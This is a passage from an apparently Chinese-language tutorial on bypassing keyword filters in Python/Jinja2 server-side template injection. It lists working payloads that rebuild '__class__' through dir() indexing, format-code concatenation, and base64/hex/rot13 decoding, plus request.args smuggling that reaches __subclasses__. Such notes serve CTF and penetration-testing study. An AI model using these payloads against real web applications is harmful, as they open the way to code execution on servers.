 2. 在`dir()`或`__dir__()`没有被ban下利用`dir()`或`__dir__()`返回值进行拼接。

   ```python
   ''[''.__dir__()[0][0]+''.__dir__()[0][0]+''.__dir__()[18][2]+''.__dir__()[4][2]+''.__dir__()[1][3]+''.__dir__()[2][2]+''.__dir__()[2][2]+''.__dir__()[0][0]+''.__dir__()[0][0]]
   #在我的环境中，等价于__class__
   #''.__dir__()[0][0]=='_'
   #''.__dir__()[18][2]==‘c’
   #''.__dir__()[4][2]=='a'
   #''.__dir__()[1][3]=='l'
   #''.__dir__()[2][2]=='s'
   ```

   

3. '%c'.format()与'{0:c}'.format()拼接。

   ```python
   {{""['{0:c}'['format'](95)%2b'{0:c}'['format'](95)%2b'{0:c}'['format'](99)%2b'{0:c}'['format'](108)%2b'{0:c}'['format'](97)%2b'{0:c}'['format'](115)%2b'{0:c}'['format'](115)%2b'{0:c}'['format'](95)%2b'{0:c}'['format'](95)]}}等价于''.__class__
   #（PS：在url中'+'号最好要编码成%2b！！！） 
   ```

   

   

4. 进行decode解编码绕过。

   例:1.进行base64处理`__class__`

   ```python
   ''['X19jbGFzc19f'.decode('base64')]
   ```

   例:2.进行16进制处理`__class__`
   
   ```python
   ''['5f5f636c6173735f5f'.decode('hex')]
   ```
   
   例:3.进行rot13 编码处理`__class__`
   
   ```python
   ''['__pynff__'.decode('rot13')]
   ```
   
   
   
5. 利用request.args，request.values进行传参.

   ```python
   {{""[request.args.class][request.args.x1][request.args.x2][request.args.x3]()[40]}}?class=__class__&x1=__base__&x2=__base__&x3=__subclasses__
   ```

   若'.'也被过滤可以用'[]'套娃方式代替

   ```python
   {{""[request['args']['c']]}}?c=__class__
   ```

6. 利用全角符号来绕过字母过滤(大多数非字母字符不能绕过,python3环境?)
